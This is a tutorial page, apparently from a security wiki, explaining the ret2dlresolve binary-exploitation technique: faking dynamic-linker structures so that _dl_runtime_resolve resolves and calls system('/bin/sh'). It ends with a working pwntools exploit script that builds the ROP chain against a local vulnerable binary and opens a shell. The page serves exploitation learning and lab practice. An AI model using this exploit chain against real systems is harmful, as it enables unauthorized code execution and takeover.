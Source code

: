 # Ret2dlresolve


## Basic Information

As explained in the page about [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) and [**Relro**](../common-binary-protections-and-bypasses/relro.md), binaries without Full Relro will resolve symbols (like addresses to external libraries) the first time they are used. This resolution occurs calling the function **`_dl_runtime_resolve`**.

The **`_dl_runtime_resolve`** function takes from the stack references to some structures it needs in order to resolve the specified symbol.

Therefore, it's possible to **fake all these structures** to make the dynamic linked resolving the requested symbol (like **`system`** function) and call it with a configured parameter (e.g. **`system('/bin/sh')`**).

Usually, all these structures are faked by making an **initial ROP chain that calls `read`** over a writable memory, then the **structures** and the string **`'/bin/sh'`** are passed so they are stored by read in a known location, and then the ROP chain continues by calling **`_dl_runtime_resolve`** with the address to `$'/bin/sh'`.

{% hint style="success" %}
This technique is useful specially if there aren't syscall gadgets (to use techniques such as [**ret2syscall**](rop-syscall-execv.md) or [SROP](srop-sigreturn-oriented-programming.md)) and there are't ways to leak libc addresses.
{% endhint %}

You can find a better explanation about this technique in the second half of the video:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Structures

It's necessary to fake 3 structures: **`JMPREL`**, **`STRTAB`** and **`SYMTAB`**. You have a better explanation about how these are built in [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Attack Summary

1. Write fake estructures in some place
2. Set the first argument of system (`$rdi = &'/bin/sh'`)
3. Set on the stack the addresses to the structures to call **`_dl_runtime_resolve`**
4. **Call** `_dl_runtime_resolve`
5. **`system`** will be resolved and called with `'/bin/sh'` as argument

## Example

You can find an [**example of this technique here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **containing a very good explanation of the final ROP chain**, but here is the final exploit used:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```

## References

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)

